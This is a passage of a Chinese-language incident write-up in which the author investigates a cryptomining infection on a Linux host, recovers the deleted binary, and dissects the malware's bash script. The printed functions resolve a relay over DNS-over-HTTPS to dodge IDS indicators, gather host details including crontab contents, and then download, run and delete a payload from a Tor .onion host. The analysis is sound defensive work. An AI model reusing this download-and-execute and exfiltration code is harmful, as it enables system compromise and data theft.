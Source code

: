 那么搜一下有没有这个可执行文件

```
find / 2>/dev/null |grep jeAozqLbO5Ni2rtDL7lwA
```

发现了另外的有趣的东西

![](https://static.scuseek.com/20210712154430.png)

再仔细看看，好家伙，还有后手

![](https://static.scuseek.com/20210712154419.png)

更坏的消息是，现在应该刚过了15:29，可能他又启动了

再看一看进程列表，果然。

![](https://static.scuseek.com/20210712155201.png)

要不是我想着摸鱼写一篇文章记录下，我可能就已经跑路，看不到这个剧情了 :)

这次不能轻易的放过他了 :)

先不急着杀掉他，把他的二进制搞出来分析分析

虽然文件被删了，但是他的文件描述符还在，所以直接把他复制出来看看，我觉得又可以丢给曾大佬玩了 :)![](https://static.scuseek.com/20210712155342.png)



小插曲解决掉了，那么继续分析 bash 脚本。

为了方便阅读，我替换了一些变量名，原始的 bash 脚本可以看前面解码的内容 :)

```bash
sockz() {
n=(doh.this.web.id doh.post-factum.tk dns.hostux.net uncensored.lux1.dns.nixnet.xyz dns.rubyfish.cn dns.twnic.tw doh-fi.blahdns.com fi.doh.dns.snopyta.org resolver-eu.lelux.
fi doh.li dns.digitale-gesellschaft.ch)
p=$(echo "dns-query?name=relay.tor2socks.in")
s=$($c https://${n[$((RANDOM%11))]}/$p | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" |tr ' ' '\n'|grep -Ev [.]0|sort -uR|head -n 1)
}
```

`sockz`函数看起来是想要通过 doh 查询自己的 ip,这一招可以说是很妙了，直接绕过了各大厂商IDS里面恶意域名的 IOC。其中 `dns.rubyfish.cn` 这个域名，以及后面出现的`ip.sb`，这两个域名在国内的互联网圈子里面可能比较流行，暂不清楚在国外的知名度有多少。所以我可能比较倾向于这个挖矿木马是国内的黑产团队搞的。

```bash
fexe() {
for i in . $HOME /usr/bin /root /var/tmp ;do echo exit > $i/i && chmod +x $i/i && cd $i && ./i && rm -f i && break;done
}
```

`fexe` 看起来是在这几个路径里面寻找一个有读写权限的路径。

```bash
u() {
sockz
f=/int.$(uname -m)
x=./$(date|md5sum|cut -f1 -d-)
r=$(curl -4fsSLk checkip.amazonaws.com||curl -4fsSLk ip.sb)_$(whoami)_$(uname -m)_$(uname -n)_$(ip a|grep 'inet '|awk {'print $2'}|md5sum|awk {'print $1'})_$(crontab -l|base
64 -w0)
curl -x socks5h://$s:9050 bggts547gukhvmf4cgandlgxxphengxovoyo6ewhns5qmmb2b5oi43yd.onion$f -oevil_file_name -e$r || curl $1$f -oevil_file_name -e$r
chmod +x evil_file_name;evil_file_name;rm -f evil_file_name
}
```
